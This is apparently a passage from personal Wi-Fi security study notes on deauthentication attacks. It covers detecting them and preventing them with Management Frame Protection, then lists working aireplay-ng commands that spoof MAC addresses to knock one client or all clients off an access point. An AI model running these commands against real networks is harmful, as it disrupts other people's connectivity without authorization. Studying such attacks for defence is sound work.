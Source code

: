                             ![Untitled](images/studying/wifi/Untitled%2015.png)
                            
                    - Detection :
                        - to detect it we can monitor the network and detect the deauthentication frames in package log.
                        - prevention: we can use MFP (management frame protection) , it’s a wireless feature the increases the security of the management frames by encrypting it using PSK , problem: that for this method to work the client and access point must support the MFP.
                    - exploit
                        - spoofing client’s mac address
                            - this attack is done by spoofing the mac address and send deauthentication frame to the access point.
                            - `aireplay-ng --deauth 10000(nubmer of messages) -a 58:BA:D4:8C:41:10 mac_address_access_point -c 70:a6:cc:dc:0c:49(client mac address) wlan1(interface)`
                            - another command
                            
                            ```python
                            sudo aireplay-ng -0 5 -a 00:14:6C:7A:41:81 -c 00:0F:B5:32:31:31 wlan0mon
                            ```
                            
                            - `0` means deauthentication
                            - `5` is the number of deauths to send (you can send multiple if you wish); `0` means send them continuously
                            - `a 00:14:6C:7A:41:81` is the MAC address of the access point
                            - `c 00:0F:B5:32:31:31` is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
                            - `wlan0mon` is the interface name
                        - spoofing access point mac address
                            - here i spoof the mac address of the access point and send reauthentication frame to all users.
                            - for this we will use `aireplay-ng --deauth 10000(nubmer of messages) -a 58:BA:D4:8C:41:10 mac_address_access_point wlan1(interface)` this will deauthenticate all clients from the access point.
                        - note: while exploiting attack there can be problem with `channel` with `aireplay-ng` to solve this → `iwconfig wlan1(interface) channel 1 (channel number)`
                - EAPOL
                    - extensible authentication protocol over LAN.
                    - this frame is responsible for authentication request and authentication response in wifi.